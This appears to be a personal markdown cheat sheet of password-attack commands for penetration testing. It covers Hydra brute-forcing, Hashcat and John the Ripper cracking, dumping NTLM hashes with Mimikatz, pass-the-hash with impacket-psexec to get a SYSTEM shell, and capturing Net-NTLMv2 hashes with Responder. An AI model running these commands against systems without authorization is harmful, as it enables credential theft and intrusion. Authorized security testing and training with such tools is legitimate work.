 ## Hydra
```
hydra -l [username] -P [wordlist] [service]://$ip

refer to hydra -help if needed
```

## Hashcat
To determine the hash type, use ```hashcat --help | grep -i "SERVICE NAME" ```
When attempting to crack,
```
hashcat -m [mode number for hash type] [hashfile] [wordlist] -r [any hashcat rule] --force
```

## JtR (John the Ripper)
Transforming different file formats into hashes:
```
keepass2john (for keepass)
ssh2john (for ssh)

if theres more check online
```
For cracking,
```
john --wordlist=[wordlist] --rules=[rulefile] [hashfile]
```

## Crackstation.net
https://crackstation.net/ (if hashcat,jtr fail then use this)
## NTLM Hashes
How to obtain:
```
1. Run Powershell as Administrator
2. Run Mimikatz
3. Run the following commands:
	privilege::debug
	token::elevate
	lsadump::sam
4. Profit (just kidding extract it and do whatever you want with it such as cracking etc)
```

For Pass-The-Hash Attacks (obtaining shell)
```
1. Follow Step 1-3 of How to Obtain
2. impacket-psexec -hashes 00000000000000000000000000000000:[NTLMHash] [user]@[ip] (THIS WILL GIVE SYSTEM)
3. use impacket-wmiexec if you want the user instead
```
For Net-NTLMv2
```
1. Use Responder, set up by running responder -I tun0
2. Try and make the target to connect to our smb share from responder to get the NTLM hash
3. Crack using hashcat to get the password to RDP in
```

